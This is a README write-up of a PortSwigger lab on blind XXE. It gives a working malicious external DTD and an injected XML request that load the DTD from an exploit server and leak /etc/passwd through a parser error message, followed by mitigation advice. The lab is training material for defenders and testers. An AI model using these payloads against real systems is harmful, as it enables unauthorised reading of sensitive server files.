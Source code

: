 
### 📁 `README.md` — Blind XXE: Data Extraction via XML Parsing Errors

# 📛 Blind XXE: Extracting Data via Error Message with External DTD

**🧪 Lab Level:** Practitioner  
**🔐 Vulnerability:** Blind XXE + Error-based Data Disclosure  
**✅ Status:** Solved  
**🛠 Platform:** PortSwigger Web Security Academy  
**🎯 Objective:** Leak the contents of `/etc/passwd` using a crafted external DTD that triggers a parsing error message.

---

## 🔍 Lab Context

This lab simulates a **blind XXE vulnerability**, where:
- The application **does not return XML parsing output**
- External parameter entities are **allowed**
- Triggered errors can leak **parsed entity content**
- You can host a **malicious DTD** using a provided exploit server

The goal is to leak the content of `/etc/passwd` through a **forced parser error** using a crafted DTD.

---

## ⚙️ Exploitation Process

### 1. 📦 Prepare the Malicious DTD

Go to the **Exploit Server** and store this payload as a `.dtd` file:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
````

* `%file` loads the contents of `/etc/passwd`
* `%exfil` tries to use the file content as a subpath of a non-existent file → triggers an error

Click **"View exploit"** to get the hosted URL, e.g.:

```
https://exploit-server.net/malicious.dtd
```

---

### 2. 🔄 Intercept & Modify the XML Request

Navigate to a product, click **“Check stock”**, and intercept the POST request in **Burp Suite**.

Replace the XML with:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "https://exploit-server.net/malicious.dtd">
  %xxe;
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

---

### 3. 📉 Trigger the Error and Extract the Data

The server tries to resolve:

```
file:///invalid/[contents-of-/etc/passwd]
```

Result: the application throws a parser error, **leaking part of `/etc/passwd`** in the response.

Example:

```
Invalid path: /invalid/root:x:0:0:root:/root:/bin/bash
```

🎯 Success — blind XXE exploited via error channel!

---

## 🧠 Technical Insights

| Entity                  | Purpose                                                            |
| ----------------------- | ------------------------------------------------------------------ |
| `%file`                 | Reads `/etc/passwd`                                                |
| `%eval`                 | Creates another entity to build a malicious `file://` path         |
| `%exfil`                | Executes the payload by referencing `%file` inside an invalid path |
| `DTD hosted externally` | Bypasses internal filtering via indirection                        |

---

## 🔐 Mitigation Recommendations

* Disable **DTD processing** (`DOCTYPE`) in XML parsers
* Use **secure XML parsers** (`defusedxml`, Java’s `SAXParserFactory` with restrictions)
* Sanitize **error messages** to prevent data leaks
* Implement **content-type and schema validation** for XML inputs

---

## 📚 References

* [📘 PortSwigger: Blind XXE via Error Messages](https://portswigger.net/web-security/xxe/blind/error-message)
* [🛡️ OWASP XXE Prevention Guide](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [🧠 PayloadsAllTheThings – XXE Section](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

